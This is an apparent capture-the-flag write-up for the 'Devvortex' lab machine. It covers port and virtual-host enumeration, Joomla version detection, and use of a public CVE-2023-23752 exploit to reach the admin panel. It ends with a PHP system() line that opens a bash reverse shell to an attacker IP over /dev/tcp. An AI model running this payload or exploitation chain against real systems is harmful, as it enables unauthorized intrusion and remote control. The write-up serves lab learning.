

# Devvortex

Scanning ports:

```bash
nmap -Pn -sC -sV -T4 --min-rate=1000
```

<figure><figcaption></figcaption></figure>

Adding ip to etc/hosts -> "10.10.11.242 devvortex.htb"


Enumerate directories:


```
gobuster dir -u http://devvortex.htb/ -w /usr/share/wordlists/dirb/small.txt -r 

```

<figure><figcaption></figcaption></figure>

Trying to find VHOST with gobuster:

```
gobuster vhost -u http://devvortex.htb/ -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt -append-domain
```

<figure><figcaption><p>Nothing</p></figcaption></figure>

With ffuf we find dev.devvortex.htb -> adding to etc/hosts\
Code:\
gobuster dns -w wordlist\_TLAs.txt -d devvortex.htb\
ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -mc 200

<figure><figcaption></figcaption></figure>

In the robots.txt we can see Disallow: /administrator/ \


<figure><figcaption></figcaption></figure>

Git Repo: [https://github.com/C-Lodder/joomla-version-detect/blob/master/detect.php](https://github.com/C-Lodder/joomla-version-detect/blob/master/detect.php)\
i find url where is joomla.xml and i get Joomla **version 4.2.6.**

<figure><figcaption></figcaption></figure>

I find exploit for joomla version <= 4.2.7\
repo: [https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)\
Need to install packages: httpx , docopt, paint

```
gem install httpx docopt paint
```

Then we can run explot and we get:

<figure><figcaption></figcaption></figure>

Okey now we can log into dev.devvortex.htb/administrator/\
system('bash -c "bash -i >& /dev/tcp/10.10.14.123/1234 0>&1"');
